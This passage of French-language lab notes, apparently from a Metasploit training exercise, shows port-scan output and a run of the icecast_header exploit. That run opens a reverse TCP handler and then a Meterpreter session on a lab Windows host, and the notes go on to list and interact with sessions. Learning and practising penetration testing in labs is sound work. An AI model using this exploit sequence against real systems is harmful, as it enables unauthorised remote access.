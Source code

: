 ```sh
10.10.73.132  49159  tcp    msrpc              open   Microsoft Windows RPC
10.10.73.132  49160  tcp    msrpc              open   Microsoft Windows RPC
```

Et les vulnérabilités trouvées (aucune actuellement):

```
msf5 > vulns

Vulnerabilities
===============

Timestamp  Host  Name  References
---------  ----  ----  ----------
```

Exemple avec icecast :

```sh
msf5 exploit(windows/http/icecast_header) > run -j # run as a job
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.11.7.104:4444 
[*] Sending stage (176195 bytes) to 10.10.73.132
[*] Meterpreter session 1 opened (10.11.7.104:4444 -> 10.10.73.132:49484) at 2020-08-11 08:54:51 -0400

msf5 exploit(windows/http/icecast_header) > jobs # show active jobs

Jobs
====

No active jobs.
```

Une session est ouverte, on peut les lister avec `sessions` et en sélectionner avec `sessions -i <ID>`

```sh
msf5 exploit(windows/http/icecast_header) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.11.7.104:4444 -> 10.10.73.132:49484 (10.10.73.132)

msf5 exploit(windows/http/icecast_header) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```
